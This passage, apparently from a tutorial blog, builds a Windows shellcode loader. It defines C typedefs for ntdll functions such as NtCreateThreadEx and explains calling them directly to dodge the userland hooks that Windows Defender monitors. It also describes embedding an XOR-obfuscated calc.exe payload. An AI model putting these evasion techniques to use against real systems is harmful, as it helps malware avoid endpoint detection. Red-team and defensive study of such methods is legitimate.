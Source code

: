 ```C
    POBJECT_ATTRIBUTES ObjectAttributes,
    HANDLE ProcessHandle,
    PVOID StartRoutine,
    PVOID Argument,
    ULONG CreateFlags,
    SIZE_T ZeroBits,
    SIZE_T StackSize,
    SIZE_T MaximumStackSize,
    PPS_ATTRIBUTE_LIST AttributeList
    );

typedef NTSTATUS(NTAPI* pNtWaitForSingleObject)(
    HANDLE Handle,
    BOOLEAN Alertable,
    PLARGE_INTEGER Timeout
    );

typedef NTSTATUS(NTAPI* pNtFreeVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T RegionSize,
    ULONG FreeType
    );

typedef NTSTATUS(NTAPI* pNtClose)(
    HANDLE Handle
    );

// Function to get NTDLL function address
PVOID GetNtdllFunction(LPCSTR FunctionName) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        return NULL;
    }
    return GetProcAddress(hNtdll, FunctionName);
}
```

To reiterate the point here: all of this is to avoid calling userland hooks that are more heavily monitored by telemetry products like Windows Defender. For example, the userland function `CreateRemoteThread` might stick out. That is, instead of calling the userland hook, we call `pNtCreateThreadEx`.

## foo()

Now that we have type definitions to use with some of our `ntdll.dll` calls later on, next we need shellcode and functions for encryption and execution. The shellcode is just a simple payload that launches `calc.exe`.

Side note: I’ve already XOR’d the payload before embedding it in the program. We’ll reverse the XOR just before execution.

